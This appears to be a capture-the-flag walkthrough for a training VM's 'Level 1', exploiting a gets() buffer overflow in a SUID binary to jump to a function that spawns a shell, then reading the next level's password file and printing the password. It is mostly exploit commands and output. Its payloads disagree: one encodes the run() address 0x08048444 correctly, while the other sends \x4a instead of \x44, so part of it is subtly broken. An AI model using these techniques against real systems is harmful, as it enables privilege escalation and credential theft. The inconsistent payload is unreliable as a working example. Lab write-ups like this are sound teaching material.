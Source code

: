 # Level 1 Walkthrough

1. **List the contents of the home directory**

	```bash
	ls -l
	```

	Output shows a SUID binary owned by `level2`:

	```
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	```

2. **Test the binary**

	```bash
	./level1
	```

	It waits for the input.

3. **Transfer the binary locally**

	```bash
	scp -P 4242 level1@<vm-ip>:/home/user/level1/level1 .
	```

4. **Analyze with Ghidra**
	Main vulnerability:

	```c
	void run() {
		fwrite("Good... Wait what?\n", 1, 0x13, stdout);
		system("/bin/sh");
	}

	void main() {
		char buffer[76];
		gets(buffer);
	}
	```

	Vulnerability: `gets()` is unsafe and allows buffer overflow. Goal is to overwrite the return address to call `run()`.

5. **Find address of `run()` with GDB**

	```bash
	gdb level1
	(gdb) disas run
	```

	Example output:

	```
	0x08048444 <+0>: ...
	```

	Save this address (e.g., `0x08048444`).

6. **Build exploit payload**

	* Fill buffer with 76 bytes
	* Append the address of `run()` (in little-endian)

	```bash
	(head -c 76 < /dev/zero | tr '\0' 'A'; printf '\x4a\x84\x04\x08') | ./level1
	```

7. **If needed, save to a file**

	```bash
	(head -c 76 < /dev/zero | tr '\0' 'A' > /tmp/payload; printf '\x44\x84\x04\x08') >> /tmp/payload
	```

8. **Trigger the exploit**

	```bash
	(cat /tmp/payload; cat) | ./level1
	```

9. **Try typing**

	```bash
	whoami
	```

10. **Read the password**

	```bash
	cat /home/user/level2/.pass
	```

	Output:

	```
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```
